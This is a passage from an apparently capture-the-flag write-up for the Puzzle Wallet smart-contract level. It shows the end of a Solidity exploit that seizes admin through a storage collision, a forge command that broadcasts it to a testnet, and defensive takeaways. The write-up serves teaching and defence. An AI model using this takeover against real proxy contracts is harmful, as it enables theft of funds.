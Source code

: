 ```javascript
        puzzleWallet.execute(msg.sender, 0.002 ether, "");
        puzzleWallet.setMaxBalance(uint256(uint160(msg.sender)));

        require(puzzleWallet.admin() == msg.sender, "Hack failed!");
        selfdestruct(payable(msg.sender));
    }
}
```

You can run the script with the following command:

```bash
forge script script/24_PuzzleWallet.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

## Takeaway

- Always double check you storage layout to prevent any collision.
- Make sure critical logic is protected with an access control mechanism.

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
